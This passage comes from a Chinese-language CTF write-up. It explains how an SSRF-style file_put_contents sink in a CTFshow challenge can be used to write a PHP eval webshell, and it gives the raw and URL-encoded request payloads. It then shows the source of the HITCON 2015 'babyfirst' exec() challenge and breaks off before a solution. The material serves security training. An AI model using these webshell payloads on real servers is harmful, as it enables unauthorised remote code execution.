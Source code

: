 ```php
    echo "Hello.CTFshow";
}
```

https://blog.csdn.net/vspiders/article/details/78170915

`file_put_contents($path, file_get_contents($url));`

传入

```
?file=http://127.0.0.1/&path=<?php eval($_POST[1]); ?>
```

可以看到页面回显如下：
![](https://s2.loli.net/2022/01/10/hPO98FyCZidr2xb.png)

那么就可以利用ssrf，将该页面写入到path中，从而实现写shell

记得url编码，然后访问1.php rce即可

```
?file=http%3A%2F%2F127.0.0.1%2F%3Ffile%3Dhttp%3A%2F%2F127.0.0.1%2F%26path%3D%3C%3Fphp%20eval(%24_POST%5B1%5D)%3B%20%3F%3E&path=1.php
```

## (x)690-HITCON CTF 2015-babyfirst

```php
<?php 
highlight_file(__FILE__);
error_reporting(0);
$args = $_GET['args'];
for ( $i=0; $i<count($args); $i++ ){
    if ( !preg_match('/^\w+$/', $args[$i]) )
        exit("sorry");
}

exec('./ ' . implode(" ", $args));
```

args要求传入为数组，count()计算数组单元数目，然后遍历数组检测是否为`[0-9a-zA-Z_]`

最后利用impload将数组元素拼接为以空格隔开的字符串，再exec



原题是这样：

[ctf/2015-10-18-hitcon/web_100_babyfirst at master · p4-team/ctf (github.com)](https://github.com/p4-team/ctf/tree/master/2015-10-18-hitcon/web_100_babyfirst)
[HITCON CTF 2015 Quals Web出题心得 - 网站安全 - 红黑联盟 (2cto.com)](https://www.2cto.com/Article/201510/446796.html)

[Babyfirst的分析和解答 | Spoock](https://blog.spoock.com/2017/09/09/Babyfirst-writeup/)

```php
<?php
    highlight_file(__FILE__);
    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);
    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```